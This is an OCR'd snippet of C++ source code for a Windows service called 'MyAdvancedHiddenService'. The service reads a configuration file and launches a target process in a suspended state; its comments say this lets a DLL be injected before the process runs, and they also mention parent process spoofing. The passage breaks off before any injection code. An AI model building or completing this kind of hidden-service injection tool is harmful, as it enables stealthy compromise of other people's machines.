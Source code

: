 ```
    // Report the status of the service to the SCM.
    SetServiceStatus(g_ServiceStatusHandle, &g_ServiceStatus);
}

// Called by SCM whenever a control request is sent to the service.
VOID WINAPI ServiceCtrlHandler(DWORD dwCtrl) {
    // Handle the requested control code.
    switch (dwCtrl) {
        case SERVICE_CONTROL_STOP:
            ReportServiceStatus(SERVICE_STOP_PENDING, NO_ERROR, 0);

            // Signal the service to stop.
            SetEvent(g_ServiceStopEvent);

            return;

        default:
            break;
    }
}

// --- Service Entry Point ---

VOID WINAPI ServiceMain(DWORD dwArgc, LPWSTR *lpszArgv) {
    // Log initialization (to Event Log in a real service)
    OutputDebugString(L"MyAdvancedHiddenService entered ServiceMain.");

    // Register the handler function for the service
    g_ServiceStatusHandle = RegisterServiceCtrlHandler(SERVICE_NAME, ServiceCtrlHandler);

    if (g_ServiceStatusHandle == NULL) {
        OutputDebugString((L"Error: RegisterServiceCtrlHandler failed (" + std::to_wstring(GetLastError()) + L").").c_str());
        return; // Handle error appropriately
    }

    // These SERVICE_STATUS values remain set throughout the service's life.
    g_ServiceStatus.dwServiceType = SERVICE_WIN32_OWN_PROCESS;
    g_ServiceStatus.dwServiceSpecificExitCode = 0;

    // Report initial status to the SCM
    ReportServiceStatus(SERVICE_START_PENDING, NO_ERROR, 5000); // Increased wait hint for config and launch

    // --- Read Configuration ---
    if (!ReadConfig(g_Config)) {
        ReportServiceStatus(SERVICE_STOPPED, ERROR_INVALID_PARAMETER, 0);
        return;
    }

    // --- Launch the Target Application ---

    STARTUPINFOEXW siEx;
    ZeroMemory(&siEx, sizeof(siEx));
    siEx.StartupInfo.cb = sizeof(siEx);
    ZeroMemory(&g_ProcessInfo, sizeof(g_ProcessInfo));

    // Use CREATE_SUSPENDED so we can inject the DLL before the process starts executing
    DWORD creationFlags = CREATE_SUSPENDED | CREATE_UNICODE_ENVIRONMENT;

    // Parent Process Spoofing (Attempt) - More complex from a service
    // Skipping explicit spoofing here for simplicity as the parent is services.exe

```
